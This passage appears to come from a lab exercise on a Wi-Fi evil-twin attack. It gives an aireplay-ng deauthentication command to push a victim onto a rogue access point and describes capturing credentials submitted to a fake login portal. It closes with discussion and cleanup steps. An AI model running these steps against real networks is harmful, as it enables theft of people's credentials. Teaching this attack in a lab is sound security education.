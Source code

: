 
## Step 3: Lure the Client

Deauthenticate the victim to force reconnection:

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Client may auto-connect to the stronger rogue AP.

---

## Step 4: Capture Credentials

On the malicious Pi:

```bash
tail -f /var/log/apache2/access.log
```

Or monitor `index.html` submissions via netcat, PHP, or Python.

> Store logs in `tasks/img/` or `/home/labadmin/credentials.log`

---

## Discussion Points

- Why do devices sometimes connect to the rogue AP?
- What could make the fake portal more convincing?
- How would you prevent this attack?

---

## Cleanup

```bash
sudo pkill hostapd
sudo pkill dnsmasq
sudo pkill python3
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip link set wlan0 up
```

---

## Optional Screenshots

Include in `tasks/img/`:
- Screenshot of fake login page
- Credential logs
- Hostapd and dnsmasq status

---